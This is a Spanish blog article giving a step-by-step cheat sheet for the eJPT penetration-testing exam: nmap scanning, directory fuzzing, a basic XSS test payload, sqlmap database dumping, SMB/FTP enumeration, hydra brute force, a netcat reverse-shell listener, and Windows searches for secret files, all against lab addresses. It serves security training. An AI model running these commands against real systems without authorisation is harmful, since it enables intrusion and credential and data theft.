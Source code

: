 ```yaml
---
title:  "Aprobar el eJPT a la primera"
categories: 
  - Artículos
tags:
  - eJPT
toc: true
toc_label: "Tabla de contenido"
---
```

El presente artículo es tomado del repositorio de [Johny Chafla](https://hacknotes.github.io) y contiene una guía del procedimiento a llevar acabo para aprobar con éxito el examen de la certificación [eJPT](https://elearnsecurity.com/product/ejpt-certification/).

## Barrido de ping

Una vez te conectes por **VPN** al laboratorio, lo primero que deberías hacer es un reconocimiento al sistema, encontrando activos, para lo cual los siguientes comandos te serian de ayuda:

```bash
nmap -sn 10.10.10.0/24
fping -a -g 10.10.10.0/24 2>/dev/null
```
## Escaneo exhaustivo

Ya en este punto, después de tener tu lista de host activos, lo siguiente que deberías hacer es un escaneo más exhaustivo, es decir listar los puertos abiertos con los que cuentan los host, así mismo como los servicios y versiones que están corriendo en ellos. No olvides ir guardando todos tus escaneos y datos relevantes encontrados.

```bash
nmap -p- --open -n -v -T5 10.10.14.16 -oN puertos
sudo nmap -sS --min-rate 200 -p- --open -n -v -Pn 10.10.14.16 -oN puertos
nmap -sV -sC -p21,22,80 10.10.14.16 -oN serviciosVersiones
nmap --script=vuln -p22,21,80,445 -v 10.10.14.16 -oN vulnScan
nmap --script=smb-vuln* -p445 -v 10.10.14.16 -oN smbScan
```
En esta etapa también debes ir realizando un reconocimiento a todos los servicios y puertos listados con los comandos anteriores, algunas cosas que deberías probar dependiendo el puerto y/o servicio seria:

### **Servicios Web**

```bash
nmap --script=http-enum -p80 10.10.14.16 -oN webScan
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ
wfuzz -c --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.10.14.15/FUZZ.php
```

- **XSS**

```bash
<script>alert(xss)</script>
<h1>H1</h1>
```

- **SQLMap**

```bash
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id --dbs
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname --tables
sqlmap -u "http://10.10.14.12/file.php?id=1" -p id -D dbname -T table_name --dump
```

### **Enumeración de SMB**

```bash
smbclient -L 10.10.14.12 -N
smbmap -H 10.10.14.12 -u 'null'
nmap --script=smb-vuln* -p445 10.10.14.15 -oN smbScan
smbmap -H 10.10.14.15 -R backups -u 'null'
smbclient //10.10.14.15/backups
```
### **Enumeración de FTP**

```bash
nmap --script=ftp-anon -p21 10.10.14.12
ftp 10.10.14.12
cd ..
```
## Explotación

En esta fase es en la cual debes aprovechar de los resultados anteriores obtenidos, con esos resultados podrás buscar posibles exploits o maneras de aprovecharte de ellos, como por ejemplo:

### FTP - Fuerza Bruta

```bash
hydra -l admin -P passlist.txt ftp://192.168.0.1
hydra -L userlist.txt -P passlist.txt ftp://192.168.0.1
```
**Pista:** 
Después de encontrar lo que te solicitan podrías necesitar **unshadow** y **john**
{: .notice--danger}

### Reverse Shell

Si te basas en los resultados anteriores y te ayudas de **Google** o **searchsploit** necesitarás:

- **nc**
```bash
nc -nlvp 443
```
- **metasploit**
```bash 
msfconsole
```
### Enumeración de windows

Una vez hayas comprometido el activo, deberás enumerar lo, los siguientes comandos te serán de gran ayuda:
```bash
dir /b/s "\*.conf*"
dir /b/s "\*.txt*"
dir /b/s "\*secret*"
route print
netstat -r
fsutil fsinfo drives
wmic logicaldisk get Caption,Description,providername
```

## Post Explotación

Ahora, una vez hayas realizado todo lo anterior, deberías preocuparte por descubrir nuevos activos y repetir los pasos anteriores si fuese necesario.

### Wireshark
```bash
ip.addr==192.168.12
ip.src == 192.168.2.11
ip.dst == 192.168.2.15
```
### IP Route
```bash
ip route add 10.10.10.0/24 via 10.10.11.1 dev tap0
```
## Recomendaciones
- **No** olvides revisar el material que te entregan antes del examen.
- Si deseas ver solo los comandos necesarios o alternativos para el examen, revisa mi [eJPT - Cheatsheet](https://github.com/hacknotes/eJPT-Cheatsheet)
